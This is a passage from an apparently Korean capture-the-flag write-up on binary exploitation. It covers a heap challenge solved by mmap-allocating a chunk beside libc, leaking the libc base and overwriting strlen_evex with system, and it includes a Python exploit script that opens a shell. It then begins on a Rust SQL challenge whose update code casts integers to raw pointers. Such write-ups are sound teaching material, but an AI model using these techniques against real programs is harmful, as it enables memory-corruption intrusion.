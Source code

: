 하지만 청크를 해제할 수 있는 방법이 아예 없기 때문에 힙 상에서 존재하는 청크들의 메타데이터를 아무리 자유롭게 조작해두어도 해제 및 재할당을 트리거할 수 없습니다. 따라서 해제된 청크의 포인터를 이용한 libc leak이나 임의 주소 할당을 통한 AAW를 달성하기 어렵습니다.

```
0x000055f26f843000 0x000055f26f844000 0x0000000000001000 0x0000000000003000 rw- /pwn-h-note/prob/for_organizer/chall
0x000055f2706ff000 0x000055f270720000 0x0000000000021000 0x0000000000000000 rw- [heap]
0x00007fee67ec3000 0x00007fee67ec6000 0x0000000000003000 0x0000000000000000 rw- <tls-th1>
0x00007fee67ec6000 0x00007fee67eee000 0x0000000000028000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc.so.6
```
mmap을 통해 chunk를 할당받는다면 이런 어려움을 우회할 수 있습니다. malloc에 MMAP_THRESHOLD(0x20000) 바이트 이상의 할당을 요청하면 mmap을 통해 청크가 할당됩니다. heap 영역이 다른 영역과 인접하지 않게 할당되는 것과 달리, mmap 영역(tls-th1)에 할당된 청크는 libc 영역과 바로 인접한 것을 확인할 수 있습니다.

따라서 mmap으로 청크를 할당받는다면 heap relative read/write를 libc relative read/write로 바꿀 수 있습니다. 이후에는 접근할 수 있는 아무 포인터로 libc base를 확인, system으로 strlen_evex를 덮고 printf("%s", '/bin/sh')를 호출하여 플래그를 얻을 수 있습니다.  

##### ex.py
```python
def exploit(p):
    offset = 0x246088
    
    add(0, 0x100, b"/bin/sh\x00"*0x10)
    add(1, 0x28000, b"A"*0x10) ## allocate by mmap
    show(1, offset)
    libc_base = u64(p.recv(6).ljust(8, b"\x00"))-0x1b32b0
    libc.address = libc_base
    log.info("libc_base: 0x{:x}".format(libc_base))
    system = libc.sym["system"]
    edit(1,offset, p64(system)+p64(system))
    show(0, 0)
    p.sendline("cat flag.txt")
    print(p.recv(0x100))
    p.interactive()
    return
```

#### SQL injection
메모리 안전을 위한(...) SQL을 구현하는 게 목표라는 컨샙의 문제입니다...만... 여전히 허술하다는 이미지를 심어주기 위하여 `SELECT * FROM` 같은 구문들을 입력하였을 때, out of index를 접근하려고 한다거나 하는 등의 기믹을 추가해놓았습니다. 명령어에 대한 자세한 설명은 `HELP` 커맨드를 입력하여 확인할 수 있게 해놓았으니, 생략하겠습니다. 기존에 우리가 사용하는 sql 프로젝트들과 아주 유사한 커맨드로 작동합니다.

취약점은 두 가지 부분에서 발생합니다.

```rs
    fn update(&mut self, tokens: &[Vec<u8>]) {
        ...
                match col_type {
                    ColumnType::Text => {
                        if let Ok(num) = parse_int(val_str) {
                            updates.insert(
                                col_name.clone(),
                                DataType::Text(TextData {
                                    len: 0,
                                    capacity: 0,
                                    buffer: num as *mut u8,
                                }),
                            );
                        } else if is_string_literal(val_str) {
                          ...
                        }
                        ...
                    }
                }
    }
```